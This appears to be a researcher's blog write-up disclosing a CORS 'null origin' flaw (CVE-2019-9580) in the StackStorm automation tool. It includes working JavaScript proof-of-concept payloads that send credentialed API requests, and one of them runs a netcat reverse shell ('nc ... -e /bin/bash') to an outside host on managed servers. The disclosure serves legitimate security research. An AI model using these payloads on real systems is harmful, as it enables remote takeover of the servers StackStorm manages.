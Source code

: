 ```yaml
---
layout: post
title: StackStorm - From Originull to RCE - CVE-2019-9580
---
```


<div style="text-align:center"><img src="https://www.thefastmode.com/media/k2/items/src/3cc8012eca57577e33709ae3cf2556ae.jpg"></div><br>StackStorm (aka "IFTTT for Ops") is event-driven automation for auto-remediation, security responses, troubleshooting, deployments, and more.
In this blogpost I will describe how can you cause RCE on targeted servers which only requires an authenticated user browse to malicious webpage.


So first, lets understand what is StackStorm, StackStorm is a really popular (3K stars on github) devops event-driven automation tool, allows devops to configure actions, workflows, and scheduled tasks, in order to perform some operations on large-scale servers.

Actions will run on behalf remote servers managed by StackStorm agent. Those actions can be anything, from HTTP request to an arbitrary command as you can see in the following image:
<div style="text-align:center"><img src="https://lh6.googleusercontent.com/cHgBmUQavZ2tfo98YZzGbZtSqCOVZJrsSXiVrbFE3H9PobrckApM4fRx_ce2R1yFX59Dz5bpUlIAQg-Zh0JDQKZuBI4SqleX8uCczQEi"></div>

Due to the fact that StackStorm agent run those actions on remote servers it will be “blessed” by quite high-privileges. This fact really motivated me to find flaw in it.

I was managed to see this request:
<div style="text-align:center"><img src="https://lh3.googleusercontent.com/gnw0KB9Ii4BH-nR2zIKzHAVEMnJYy68bjO_3rD6uHW_RbZaJACFUQ8m-b_i_pyb3w9p9Hq1uw14VySYCPr31KjE6jazfkf2TzaSVSEa7BrLLWw3zPqvTn9Pzf4_VhGPVh_pMZQBG"></div>

As we can see the “Access-Control-Allow-Origin” header returning in each request to StackStorm REST API, even when request not includes the origin header, quite weird but anyway might make sense…
Then I started to send a malformed Origin header and I realized that the server cant handle it properly, and returning the header “Access-Control-Allow-Origin: null”:
<div style="text-align:center"><img src="https://lh5.googleusercontent.com/iROyOQlB1lRDbcvCOis4P8PkcJb3kcSG8PJCpyiAHjubxJ7tG9JIVu-nS9Vtd3Wo6bZoiQubqBTOP4FS5F7qWveiDXUqvtDkG_2uq-vNyPSITx-nQtB9GdwLbaO-iQtIQfWUYB2D"></div>


Right away I knew that there is something interstring in here, and reminded the [Originull attack discovered by Ysrael Gurt](https://bugsec.com/wp-content/uploads/2016/12/Blog-Post-BugSec-Cynet-Facebook-Originull.pdf)
This is the first time I encountered that on the wild, I was really curious about why is this happening in first place?
why servers returning “Access-Control-Allow-Origin: null” header at all? they can just not return this header at all.
I managed to read a bit the [The Web Origin Concept RFC](https://tools.ietf.org/html/rfc6454) and find page 11 quite interesting related to Originull:
<div style="text-align:center"><img src="https://lh4.googleusercontent.com/MSAecvSRa9BHTCV32M526_aisMdNz2ApU_e5xoZRbf7bv9vkXQTP0rLJlRi3wzEIMg8ZQKj142Mk-v2i1wNAkI_t4hm4xDMxo9rRpLXG8qHjXQJrrgxKFzQF_Lz_tmdV8ym85pUs"></div>


To simplify, the RFC defines, in case the server got a malformed origin which cannot be serialized, set the string “null” as the Origin header.
Now we can understand what is the root cause for all this, that's makes me laugh a bit because the RFC defines one thing, but [Mozilla best practices](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin) saying to avoid using it (make sense anyway).

After we understand why is this happening, let’s understand how can we exploit this flaw?
So now the origin “null” have the a “full privileges” to StackStorm REST API, which means, that this origin can fetch requests and read responses on behalf any user that will browse to this “null” origin.
How can I get null origin? Via data/file scheme as shown in the PDF mentioned above.
You can run this in your browse and see that you get empty(document.domain=null) alert message:
```javascript
data:text/html;,<script>alert(document.domain)</script>
```
At the PDF document, they used a meta tag in order to redirect the user to browse this malicious data URL:
```bash
<meta http-equiv="refresh" content="0;URL='data:text/html;,<script>alert(document.domain)</script>'" />  
```

I tried to use the same technique in order have a popup message reading data from StackStorm REST API but I got this message:
<div style="text-align:center"><img src="https://lh6.googleusercontent.com/uxhmHpvw8aMpa9kaVcD8QFj9a6wDgaRXO3VAQRhuvM0ZfEcH1LCEBfSUvxmW0dD7u0_YPYzc5-Yl4jEAt0vKRiNWQQfpkIlszclJBDnHVyeME2kD4E3X4y7s3Rd8T55OYoLucEF7"></div>


Crap! I realized that chrome and firefox disabled any data scheme redirections.
I was needed to get another creative way to redirect users to execute this malicious script on null origin context.
Tried to manipulate redirections responses with data URL schemes on Location header but it failed.
Finally I used “javascript:” scheme, which allows me to execute JS code which runs on the same context as data and file schemes.
So by the javascript scheme I was managed to make a full working PoC as shown below:
```html
<script>	document.location="javascript:fetch('https://172.18.0.6/api/v1/executions',{credentials: 'include'}).then((res)=>{console.log(res.json().then((a) => {console.log(a)}));})"
</script>
```
We can see the REST API response object printed to the console and can be leak to anywhere:
<div style="text-align:center"><img src="https://lh4.googleusercontent.com/e5tZ0o6HXlE4PCu9Ru_EaXQh_7ThnP5BEmGioidAKZqxS6pgW391Ykfd8gt022rE3aNAZeWhMVqgyFlDFg7WldynKB1Ys7R5aNS5qv0G0SqIdKTkzrg4O4JQA9Gx3Yrjx4KaadPp"></div>

So actually, we have to ability to read/update/create actions and workflows, get internal IPs and execute command on each machine which is accessible by StackStorm agent.

It is possible to perform code execution via core.remote action:
```html
<script>
		let jsonBody = {"action":"core.remote","parameters":{"cmd":"nc 192.168.100.113 4444 -e /bin/bash","hosts":"10.0.0.10"},"context":{"trace_context":{}}}
		document.location="javascript:fetch('https://172.18.0.6/api/v1/executions',{credentials: 'include', method: 'post', body: JSON.stringify(jsonBody),headers: {'Content-Type': 'application/json'}}).then((res)=>{console.log(res.json().then((a) => {console.log(a)}));})"
</script>

```
<div style="text-align:center"><img src="https://lh4.googleusercontent.com/N_RVrqFZcfJcZ3AK9DyZnLkAzbMTtdk9A6MTEsiuMIHfik4RADjEZAH3Yt4gB6xIRU6E5gDOmwuXkuK-m4x0kybVeKrrQ6DG23mvF5fJyT7DGFvSNBLidEBsuheYxnmkA8LR2LZ5"></div>

So I was sure I done, but then I tried to run it from a web server, and got the following error message:
<div style="text-align:center"><img src="https://lh5.googleusercontent.com/wyjtRTeOMqk6AtCZ8AWIR8uPXet9us9iRP7S2TeXp1ACU9AGQ_Z2hOlM3r9yFec8tbhgMLWkep9QcNV3JcHrcKnvKMwqHh2CSOmHzlu8V3tY9sSD7-WO8FOhIwQQYgAoODFPDWrY"></div>

I was like, not again!!! The browser actually saves the origin context even if we use javascript, so it was only exploitable via sending a file to the user and make him open it.

I was frustrated and motivated at the same time, and got help from my talented colleague Chen Gur Arie, we managed to bypass this as well, and we got Origin null context from a page loaded in a domain (btw, Flash can do that as well)
I don't want to elaborate about how we did it, because we still trying to figure out what are the implications of it.

Now all an attacker needs is to send a malicious link to a victim which is authenticated to StackStorm Web UI, thus, allow the attacker take over any server accessible by StackStorm agent as you can see at [the PoC video](https://www.youtube.com/watch?v=KnvWCg2Q7k4)
